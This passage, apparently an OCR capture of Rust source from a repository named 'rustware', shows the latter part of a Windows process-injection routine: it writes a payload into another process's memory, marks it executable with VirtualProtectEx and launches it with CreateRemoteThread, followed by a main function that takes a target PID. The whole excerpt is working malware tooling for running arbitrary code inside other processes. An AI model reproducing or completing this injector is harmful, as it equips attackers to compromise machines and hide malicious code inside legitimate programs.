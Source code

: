 ```rust
                    match result_writeprocessmemory {
                        Ok(()) => {
                            let result_virtualprotectex = VirtualProtectEx(
                                handle_process,
                                remotememory_ptr,
                                payload_len,
                                PAGE_EXECUTE_READ,
                                &mut old_protect,
                            );

                            match result_virtualprotectex {
                                Ok(()) => {
                                    let result_createremotethread = CreateRemoteThread(
                                        handle_process,
                                        None,
                                        0,
                                        transmute(remotememory_ptr),
                                        None,
                                        0,
                                        None,
                                    );

                                    match result_createremotethread {
                                        Ok(handle_tread) => {
                                            println!("Thread Created");
                                            let _ = CloseHandle(handle_tread);
                                        }
                                        Err(error) => {
                                            println!("CreateRemoteThread Error: {}", error)
                                        }
                                    }
                                }
                                Err(error) => {
                                    println!("VirtualProtectEx Error: {}", error)
                                }
                            }
                        }

                        Err(error) => {
                            println!("WriteProcessMemory Error: {}", error)
                        }
                    }
                } else {
                    println!("VirtualAllocEx Error")
                }
                let _ = CloseHandle(handle_process);
            }
            Err(error) => {
                println!("OpenProcess Error: {}", error)
            }
        }
    }
}

fn main() {
    let args: Vec<String> = args().collect();

    if args.len() < 2 {
        println!("Usage: rustware.exe PID");
        return;
    }

    let pid: u32 = args[1].parse().unwrap();
```